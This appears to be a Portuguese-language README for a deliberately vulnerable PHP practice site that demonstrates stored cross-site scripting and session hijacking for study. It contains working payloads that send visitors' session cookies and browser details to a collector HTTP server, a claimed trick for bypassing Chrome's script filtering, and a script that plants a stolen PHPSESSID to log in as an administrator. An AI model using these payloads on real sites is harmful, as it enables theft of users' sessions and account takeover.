 XSS STORED

XSS (CROSS SITE SCRIPTING)

ROUBO DE SESSÃO.

ESTE CONTEÚDO É PARA FINS DE ESTUDO!

USE ESTE CONHECIMENTO PARA MELHORAR SUAS APLICAÇÕES CONTRA ESSE TIPO DE ATAQUE.

USAR ISTO PARA PREJUDICAR OUTRAS PESSOAS É CRIME.

INÍCIO:

Caso tenha a Linguagem GO instalada, inicie o servidor no diretório [http-server]

Instale o Mysql e execute as Querys do arquivo 'sql.sql'

Iniciando o servidor do PHP na pasta do projeto:

    \> php -S localhost:8888

Acesse o site via URL:

    http://localhost:8888

Cadastre uma conta para poder comentar no site.

Acessar o painel do administrador:

    http://localhost:8888/admin/painel.php

Você só terá acesso ao painel do administrador, caso o cookie roubado tenha feito o login
como administrador.

O cadastro de administrador so pode ser feita no banco com ID de usuários ja cadastrados.

Observações

O google chrome bloqueia os Inputs de textos com o comando "<script>"

Existem algumas técnicas para furar esse bloqueio. Um dos exemplos testados foi deixar as tag's entre parenteses.

Exemplo:

    (<script>alert(document.cookie)</script>)

É possível fazer o teste no Firefox. 

O teste foi feito dia 17 de Novembro 2018. Talvez no futuro o Firebox também bloqueie.

A hack consiste em aplicar comandos javascript dentro dos inputs de texto dos formulários.

Se o site for vulnerável aos comandos, então talvez seja possível salva-los no banco de dados,

ao fazer isso o comando irá rodar em todas as máquinas que acessarem o site.

Esta técnica é chamada de XSS Stored pois o script e salvo no banco de dados.

Este site foi criado para estar vulnerável a este tipo de ataque, para fins de estudo.

Javascript Comandos

Pegar o PHPSESSID da sessão atual:

    document.cookie 

Pegar o Host da sessão atual:

    document.domain

Pegar o Sistema que está rodando:

    navigator.appName 
    
Pegar o navegador que está rodando:

    navigator.appVersion;

Fazer uma requisição HTTP:

    new Image().src="http://link"


Faça um comentário dentro do textarea com o seguinte comando:

    <script> new Image().src="http://localhost:3000/?=" document.cookie </script>

Script com mais informações:

    <script> new Image().src="http://localhost:3000/?=" + document.cookie + "&info=" + navigator.appName + " " + navigator.appVersion </script>    

*Localhost pode ser substituido pelo IP da máquina que está rodando o servidor HTTP, assim como a porta*

No comando acima uma requisição esta sendo feita ao webserver enviando via GET o ID da SESSÃO de quem acessou o site.

Para logar em uma conta através da sessão, umas das formas é: 

    - coloque o seguinte script, no campo de busca do site:

    <script> alert(document.cookie="PHPSESSID=COLOQUE O CODIGO DO COOKIE AQUI"); </script>

    Exemplo:

    <script> alert(document.cookie="PHPSESSID=ftu866p4lvrmumep4hokmv9h12"); </script>

Ao fazer isso você estará mudando seu cookie para o mesmo cookie capturado e assim dando acesso as páginas de sessões abertas a este cookie.

Neste site é necessário atualizar a página para verificar se o login foi realizado após o ataque.